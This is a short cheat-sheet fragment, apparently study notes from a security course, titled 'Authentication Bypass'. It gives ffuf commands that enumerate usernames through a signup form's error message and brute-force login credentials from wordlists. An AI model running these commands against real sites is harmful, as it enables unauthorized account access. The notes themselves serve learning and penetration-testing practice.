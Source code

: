 ## Authentication Bypass

<pre>ffuf -w wordlist -X POST -d data -H header -u url mr mwssage</pre>
<pre>ffuf -w wordlist -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u url/signup -mr "username already exists"</pre>
<pre>ffuf -w username:W1,password:W2 -X POST -d "username=W1&email=x&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u url/login -fc 200</pre>
